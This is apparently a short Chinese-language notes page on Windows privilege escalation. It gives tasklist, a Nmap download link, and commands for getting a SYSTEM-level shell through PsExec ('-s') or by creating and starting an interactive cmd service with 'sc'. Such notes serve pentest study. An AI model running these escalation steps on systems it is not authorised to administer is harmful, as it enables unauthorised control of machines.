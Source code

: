 # 系统提权

查看系统进程
tasklist /svc


Nmap 扫描器 
[window 版](https://nmap.org/dist/?C=M&O=D) https://nmap.org/dist/?C=M&O=D 

## at 命令提权 只支持xp 2003以下系统

## sysinternals-suite 套件提权
https://docs.microsoft.com/zh-cn/sysinternals/downloads/sysinternals-suite

找到 PsExec.exe 放到 system32 文件夹

`psexec -i -s -d taskmgr` # -i 使用交互模式，-s 提升为system执行程序

## sc 服务提权

`sc Create syscmd binPath= "cmd /K start" type= own type= interact` 
重新启动命令行窗口，交互式，创建了系统服务syscmd

`sc start syscmd`
启动服务（系统服务默认以system权限启动，得到system权限）

http://www.bubuko.com/infodetail-2373896.html
